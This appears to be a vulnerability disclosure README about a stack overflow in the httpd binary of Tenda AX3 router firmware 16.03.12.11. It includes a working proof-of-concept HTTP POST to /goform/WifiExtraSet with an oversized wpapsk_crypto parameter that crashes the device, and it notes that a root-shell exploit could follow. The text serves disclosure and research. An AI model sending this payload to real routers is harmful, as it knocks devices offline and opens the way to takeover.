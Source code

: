 # TENDA AX3 16.03.12.11 stack overflow Vulnerabilty in **wlSetExternParameter**

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3476.html

<img src="img/0.jpg" style="zoom: 50%;" />

## Vulnerability Description
The vulnerability is detected at `/bin/httpd`.

There is a stack overflow vulnerability in function `wlSetExternParameter`, in which the `wpapsk_cryptovalue` variable can be obtained from the http request parameter `wpapsk_crypto` without checking its size. The vulnerability can be triggered following `fromSetWirelessRepeat->wlSetExternParameter`.

<img src="img/3.jpg" style="zoom: 42%;" />

<img src="img/2.jpg" style="zoom:50%;" />

## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

We can see the router crash, and finally we can write an exp to get a root shell.
